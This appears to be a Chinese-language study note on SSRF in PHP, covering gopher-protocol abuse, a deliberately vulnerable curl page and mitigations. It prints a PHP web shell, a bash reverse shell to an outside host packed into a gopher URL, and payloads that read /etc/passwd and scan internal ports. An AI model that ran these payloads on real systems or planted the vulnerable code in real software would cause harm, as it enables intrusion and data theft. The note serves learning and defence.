 ## 原理

SSRF漏洞，在拉取外部资源的时候没有检查URL，导致可以向内网发送请求

<br/>

curl -v "ftp://ip:80"

端口存在连接会一直在连接，连接时间会很长。

	Connected to ip (ip) port 80 (#0)

端口不存在的连接会被立马刷新

	Failed connect to ip:21; Connection refused


http://www.sohu.com/a/300092789_609556

https://blog.chaitin.cn/gopher-attack-surfaces/

**https://www.cnblogs.com/Mikasa-Ackerman/p/11155779.html**

https://joychou.org/web/phpssrf.html

https://www.cnblogs.com/p0pl4r/p/10336501.html

https://blog.csdn.net/sojrs_sec/article/details/100999908

exp.php

	<?php system($_POST[e]);?> 

利用方式

	POST /exp.php HTTP/1.1
	Host: 127.0.0.1
	User-Agent: curl/7.43.0
	Accept: */*
	Content-Length: 47
	Content-Type: application/x-www-form-urlencoded
	
	e=bash -i >%26 /dev/tcp/xx.xxx.x.xx/2333 0>%261

构造 Gopher 协议的 URL：

	gopher://127.0.0.1:80/_POST /exp.php HTTP/1.1%0d%0aHost: 127.0.0.1%0d%0aUser-Agent: curl/7.43.0%0d%0aAccept: */*%0d%0aContent-Length: 47%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0a%0d%0ae=bash -i >%2526 /dev/tcp/vps/2333 0>%25261null


## gopher协议

gopher协议是一种信息查找系统，他将Internet上的文件组织成某种索引，方便用户从Internet的一处带到另一处。在WWW出现之前，Gopher是Internet上最主要的信息检索工具，Gopher站点也是最主要的站点，使用tcp70端口。现在它基本过时，人们很少再使用它。虽然很古老但现在很多库还支持gopher 协议而且gopher 协议功能很强大。

它可以实现多个数据包整合发送，然后gopher 服务器将多个数据包捆绑着发送到客户端，这就是它的菜单响应。比如使用一条gopher 协议的curl 命令就能操作mysql 数据库或完成对redis 的攻击等等。
gopher 协议使用tcp 可靠连接。

它只支持文本，不支持图像

**https://yinwc.github.io/2018/07/31/Gopher/**

https://www.cnblogs.com/Konmu/p/12984891.html

https://www.cnblogs.com/zhangqianxi/p/13337622.html

## php 中的 ssrf

以下三个函数使用不当会造成SSRF漏洞

	file_get_contents()
	fsockopen()
	curl_exec()

构造一个存在ssrf漏洞的页面

	<?php
	$ch = curl_init();
	curl_setopt($ch, CURLOPT_URL, $_GET['url']);
	#curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
	curl_setopt($ch, CURLOPT_HEADER, 0);
	#curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTPS);
	curl_exec($ch);
	curl_close($ch);
	?>

查看 /etc/passwd

http://ip/ssrf.php?url=file:///etc/passwd

![](1.jpg)

扫内网开放端口

http://ip/ssrf.php?url=dict://ip:22

![](2.jpg)

加载远程图片 (本服务端代码未成功，显示的二进制)

![](3.jpg)


大部分 PHP 并不会开启 fopen 的 gopher wrapper

file_get_contents 的 gopher 协议不能 URLencode

file_get_contents 关于 Gopher 的 302 跳转有 bug，导致利用失败

curl/libcurl 7.43 上 gopher 协议存在 bug（%00 截断），经测试 7.49 可用

curl_exec() //默认不跟踪跳转，

file_get_contents() // file_get_contents支持php://input协议




## ssrf 解决方案

### 解决方案1

•        限制协议为HTTP、HTTPS

•        禁止30x跳转

•        设置URL白名单或者限制内网IP


### 解决方案2

1.解析目标URL，获取其Host

2.解析Host，获取Host指向的IP地址

3.检查IP地址是否为内网IP

4.请求URL

5.如果有跳转，拿出跳转URL，执行1

6.禁用不必要的协议  可以防止类似于file:///,gopher://,ftp:// 等引起的问题。



## 参考资料

[php，java， python中的ssrf ](https://www.t00ls.net/articles-41070.html)